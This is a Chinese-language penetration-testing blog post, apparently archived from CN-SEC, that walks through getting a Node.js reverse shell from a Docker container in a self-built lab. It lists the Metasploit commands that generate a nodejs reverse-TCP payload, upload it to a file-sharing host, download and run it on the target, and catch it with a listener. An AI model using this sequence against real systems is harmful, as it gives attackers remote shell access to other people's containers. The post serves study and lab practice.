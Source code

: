 ```
标题: Docker Node.js Reverse Shell
创建: 2021-01-14
更新: 2024-02-03
```

> 从 CN-SEC 找回的旧文

---

### 前言

这篇文章是我遇到的1种新环境(云上)的渗透，后来听团队大佬大概讲了一下操作(node.js 反弹shell)，作为菜鸡的我一向很自觉，学技术自然得"趁热打铁",于是下班回来把环境大概模拟出来，复现了一波。

注：实际情况是shell在容器内可以用node.js反弹出shell,但是很不稳定，大概20s左右就掉了。


### 环境搭建

step 1
- 准备两台服务器

step 2:
- 1台安装docker,dokcer安装node.js

step 3:
- 1台安装msf

![](./img/1706968410585.png)


### 复现

#### 姿势1 lambda Node.js 反弹shell

编辑shell.js

![](./img/1706968456421.png)

编辑完保存为shell.js, 然后直接在目标机器上执行即可

![](./img/1706968481431.png)

如图所示，成功反弹shell。



#### 姿势2 msf+node.js 反弹shell

安装msf

```shell
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && chmod 755 msfinstall && ./msfinstall
```

注：踩坑如下：
![](./img/1706968530000.png)

解决方式：
```shell
sudo vi etc/hosts

# 在hosts中添加

199.232.28.133raw.githubusercontent.com

# 即可
```

msf安装成功：

![](./img/1706968562023.png)

msf 生成payload (node.js)

```shell
msfvenom -p nodejs/shell_reverse_tcp LHOST=1.1.1.1 LPORT=8889 -f raw > msf_shell.js
```

![](./img/1706968578268.png)

上传到 bashupload

```shell
curl https://bashupload.com/msf_shell.js --data-binary @msf_shell.js
```

![](./img/1706968608898.png)

然后直接在目标容器下载该payload并执行：

```shell
wget https://bashupload.com/56yrL/msf_shell.js
```

![](./img/1706968629770.png)

```shell
node msf_shell.js
```

![](./img/1706968645390.png)

在vps上设置msf监听

```shell
use exploit/multi/handler
set payload nodejs/shell_reverse_tcp
set lhost 1.1.1.1
set lport 8889
exploit
```

![](./img/1706968675909.png)

如图，成功反弹shell。

---

参考：

https://tonghuaroot.com/


---

[LEAVE A REPLY](https://github.com/pen4uin/blog-feedback/issues/new)









